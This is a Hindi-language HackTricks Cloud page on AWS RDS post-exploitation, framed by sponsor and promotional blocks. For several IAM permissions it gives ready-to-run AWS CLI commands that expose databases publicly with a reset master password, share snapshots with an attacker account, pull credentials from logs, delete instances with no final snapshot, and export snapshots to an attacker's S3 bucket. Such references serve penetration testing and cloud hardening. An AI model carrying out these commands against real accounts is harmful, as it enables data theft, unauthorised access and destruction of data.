# AWS - RDS पोस्ट अधिकारीकरण

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा संग्रह अनन्य [**NFTs**](https://opensea.io/collection/the-peass-family)
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos** में PR जमा करके।

</details>

## RDS

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

यदि हमलावर के पास पर्याप्त अनुमतियाँ हैं, तो वह डेटाबेस की एक स्नैपशॉट बनाकर और फिर स्नैपशॉट से एक सार्वजनिक उपयोग योग्य डेटाबेस बनाकर एक **डेटाबेस को सार्वजनिक रूप से पहुंचयोग्य** बना सकता है।
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

इन अनुमतियों के साथ एक हमलावर एक DB की स्नैपशॉट बना सकता है और इसे सार्वजनिक रूप से उपलब्ध करा सकता है। फिर, वह उस स्नैपशॉट से अपने खाते में एक DB बना सकता है।

अगर हमलावर के पास `rds:CreateDBSnapshot` नहीं है, तो वह फिर भी अन्य बनाई गई स्नैपशॉट को सार्वजनिक बना सकता है।

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
### `rds:DownloadDBLogFilePortion`

`rds:DownloadDBLogFilePortion` अनुमति वाले एक हमलावर्ती को **एक आरडीएस इंस्टेंस के लॉग फ़ाइलों के हिस्से को डाउनलोड** करने की अनुमति होती है। यदि संवेदनशील डेटा या पहुंच प्रमाणपत्र अपराधपूर्ण रूप से लॉग किए जाते हैं, तो हमलावर इस जानकारी का उपयोग करके अपनी प्रभुत्व को बढ़ा सकता है या अनधिकृत कार्रवाई कर सकता है।

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**संभावित प्रभाव**: चुराए गए क्रेडेंशियल का उपयोग करके संवेदनशील जानकारी तक पहुंच या अनधिकृत कार्रवाई।

### `rds:DeleteDBInstance`

इन अनुमतियों के साथ एक हमलावर **मौजूदा RDS इंस्टेंस को डीओएस कर सकता है**।

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**संभावित प्रभाव**: मौजूदा आरडीएस इंस्टेंस को हटाना और डेटा का संभावित नुकसान।

### `rds:StartExportTask`

{% hint style="info" %}
टूडो: टेस्ट
{% endhint %}

इस अनुमति के साथ एक हमलावर एक आरडीएस इंस्टेंस स्नैपशॉट को एक एस 3 बकेट में निर्यात कर सकता है। अगर हमलावर को गंतव्य एस 3 बकेट पर नियंत्रण है, तो वह निर्यातित स्नैपशॉट में संवेदनशील डेटा तक पहुंच सकता है।

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**पोटेंशियल प्रभाव**: निर्यातित स्नैपशॉट में संवेदनशील डेटा तक पहुंच।

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>
